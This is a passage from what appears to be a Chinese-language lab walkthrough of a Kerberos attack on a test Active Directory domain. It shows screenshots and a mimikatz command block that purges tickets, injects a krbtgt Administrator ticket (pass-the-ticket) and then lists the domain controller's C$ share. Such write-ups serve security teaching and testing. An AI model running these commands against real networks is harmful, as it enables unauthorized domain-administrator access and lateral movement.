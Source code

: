[![](assets/1705982146-20067f5057791ac200099a2e8bdf0b7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222851-3b3b6856-b7a0-1.png)  
Step 7：此时依旧无法访问域控  
[![](assets/1705982146-03c415a542f0494492f594f19c44f9ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222902-41c86c8c-b7a0-1.png)  
Step 8：之后使用 mimikatz 将这个票据导入内存中，然后成功访问域控

```bash
#清空票据
kerberos::purge

#查看票据
kerberos::list

#导入票据
kerberos::ptt [0;cb39c]-2-0-60a10000-Administrator@krbtgt-HACKE.TESTLAB.kirbi

#查看票据
kerberos::list

#访问域控
dir \\dc.hacke.testlab\c$
```
